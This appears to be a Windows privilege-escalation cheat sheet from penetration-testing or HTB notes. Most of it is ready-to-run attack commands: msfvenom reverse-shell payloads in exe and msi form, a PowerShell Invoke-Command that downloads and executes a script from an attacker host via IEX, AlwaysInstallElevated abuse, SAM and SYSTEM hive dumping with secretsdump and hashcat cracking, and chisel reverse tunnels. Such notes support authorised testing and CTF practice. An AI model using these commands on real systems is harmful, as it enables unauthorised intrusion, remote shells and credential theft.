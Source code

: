 Recon

```
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```

```
https://github.com/itm4n/PrivescCheck
```

Forwarding service

[TCP/UDP tunnel over HTTP](https://github.com/jpillora/chisel)

PowerShell history file

```cmd
REM location
cd C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
REM file
type C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

[LAN Manager authentication level](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)

- [NTLMv1 attack](https://github.com/SpiderLabs/Responder)

Check unusual programs

```
C:\Program Files
C:\Program Files (x86)
```

MSFVenom Reverse Shell Payload

```
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
```

:label: Running PowerShell as another user

reverse shell with credential

```cmd
REM create payload
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
REM change user, password and payload
powershell -c "$password = ConvertTo-SecureString '<password>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<user>', $password);Start-Process -FilePath "<payload>" -Credential $creds"
```

specify a computer name in the AD environment

prepare PowerShell reverse shell script file ```XXX.ps1```

execute command in the target host

```cmd
powershell -c "$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $pass);Invoke-Command -Computer <name> -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://<attacker ip>/<XXX.ps1>') } -Credential $cred"
```

File owner access permission 

```cmd
REM check owner
dir /q /a
REM grant full access
icacls <file> /grant <user>:F
```

AlwaysInstallElevated

```shell
# AlwaysInstallElevated set to 1 in HKLM!
# AlwaysInstallElevated set to 1 in HKCU! 
# using msfvenom to create payload
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f msi -o reverse.msi
```

execute the command on the target

```powershell
# <payload> = reverse.msi
msiexec /quiet /qn /i <payload>
```

SAM (SYSTEM account) (HTB:Omni)

```cmd
reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM
```

```shell
python3 secretsdump.py -system /tmp/SYSTEM -sam /tmp/SAM LOCAL
hashcat -m 1000 ./hash ~/Documents/rockyou.txt
```

[Chisel](https://github.com/jpillora/chisel) (port forwarding)

```shell
# client
chmod +x chisel
./chisel server --reverse --port <attacker port>
# Windows target
.\chisel.exe client <attacker ip>:<attacker port> R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol>
# attacker ip = 10.10.10.10
./chisel server --reverse --port 10000
.\chisel.exe client 10.10.10.10:10000 R:4444:localhost:3306 R:5555:localhost:3307
# attacker 
localhost 4444 => remote 3306
localhost 5555 => remote 3307
```

Tools

[Chisel](https://github.com/jpillora/chisel):Pivoting 
[ysoserial.net](https://github.com/pwntester/ysoserial.net): Deserialization payload generator for a variety of .NET formatters

Exploits

- CVE-2021-1732
- MS10-059